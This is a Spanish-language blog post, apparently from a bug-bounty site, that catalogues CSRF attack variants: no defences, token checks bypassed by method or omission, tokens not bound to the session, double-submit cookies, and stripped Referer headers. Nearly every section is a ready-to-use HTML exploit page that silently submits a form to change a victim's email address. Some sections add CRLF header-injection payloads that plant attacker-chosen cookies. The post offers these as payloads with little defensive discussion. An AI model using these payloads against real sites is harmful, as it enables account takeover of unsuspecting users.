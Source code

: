 ```yaml
---
layout: post
title:  "CSRF Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/159375082-f0ca6711-c380-41c8-b82d-9e1515ff729e.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

Ataques CSRF y distintas formas de implementarlo.

# Table of Contents
1. [Vulnerabilidad CSRF sin defensas](#CSRFsinDefensas)
2. [Validación token depende método solicitud](#CSRFenGET)
3. [Validación token depende presencia token](#CSRFenPresencia)
4. [El token CSRF no está vinculado a la sesión del usuario](#CSRFnoVinculado)<br>
   4.1. [Mismo token entre usuarios](#MismoTokenUsuarios)<br>
   4.2. [Token no vinculado a la sesion](#SesionTokenNoVinculado)
5. [El token se duplica en la cookie](#TokenDuplicaCookie)
6. [CSRF sin Referrer](#CSRFsinReferrer)
---

### 1- Vulnerabilidad CSRF sin defensas <a name="CSRFsinDefensas"></a>
**CSRF basico correo**
Hace una peticion a la pagina en la ruta donde se cambia el correo y con el javascript confirma la peticion, lo cual se cambiará el correo con solo visitar la pagina.

Codigo de https://atacante.com/malicioso.html

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### 2- CSRF donde la validación del token depende del método de solicitud <a name="CSRFenGET"></a>
Dependiendo del metodo de peticion, se puede hacer con GET
```html
<img src="https://vulnerable-web.com/my-account/change-email?email=pwned@evil-user.net"/>
```
---
### 3- CSRF donde la validación del token depende de la presencia del token <a name="CSRFenPresencia"></a>
**No verifica el token CSRF, se eliminia y se bypassea**

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
             <input type="hidden"  value="csrf" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### 4- El token CSRF no está vinculado a la sesión del usuario <a name="CSRFnoVinculado"></a>
**4.1- Podemos usar el mismo Token CSRF en un usuario que en otro al no estar vinculado a la sesión del usuario** <a name="MismoTokenUsuarios"></a>
Mi token: U6vJiRteqjSX46XRk57k6saqolEcdDvQ sirve para otros usuario tambien.
```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
                        <input type="hidden" name="csrf" value="<csrf>"  />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
**4.2- El token CSRF no esta vinvulado a la sesion.** <a name="SesionTokenNoVinculado"></a>
Por lo que se podria usar el mismo csrf token y la misma csrf key en una cuenta que en otra para cambiar el correo  
```html
<html>
  <body>
    <form action="https://vulnerable-web.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwn&#64;ed&#46;com" /> 
      <input type="hidden" name="csrf" value="<csrf>" />
      <input type="submit" value="Submit request" />    </form>
  <img src="https://vulnerable-web.com//?search=test%0d%0aSet-Cookie:%20csrfKey=<key>" onerror="document.forms[0].submit()">

  </body>
</html>
```

---

### 5- El token CSRF simplemente se duplica en una cookie <a name="TokenDuplicaCookie"></a>
El token se valida en la cookie, podemos hacer que el usuario se cree su propio token csrf el cual indicamos nosotros.

![cookieToken](https://user-images.githubusercontent.com/47476901/159374578-694ad92d-dc4c-43c5-b169-a32c28eebf3f.png)

Como se validaba el token en la cookie podemos mandar la peticion para el cambio de correo.

```html
<html>
    <body>
        <form action="https://vulnerable-web.com/email/change" method="POST" >
            <input type="hidden" name="email" value="pwned@evil-user.net">
            <input type="hidden" name="csrf" value="tokenfalsojeje">
        </form>
		
        <img src="https://vulnerable-web.com/?search=hat%0d%0aSet-Cookie:%20csrf=tokenfalsojeje" onerror="document.forms[0].submit()">
    </body>
</html>
```


---
### 6- CSRF sin Referrer <a name="CSRFsinReferrer"></a>
Indicamos que no exista el Referer en el exploit del CSRF usando el tag de meta.

```html
<html>
  <head> 
     <meta name="referrer" content="no-referrer">
  </head> 
<body> 
   <form action="https://vulnerable-web.com/email/change" method="POST"> 
   <input type="hidden" name="email" value="pwned@evil-user.net" />
   <input type="submit"/>
</form> 
   <script>document.forms[0].submit();</script>
</body>
</html>
```
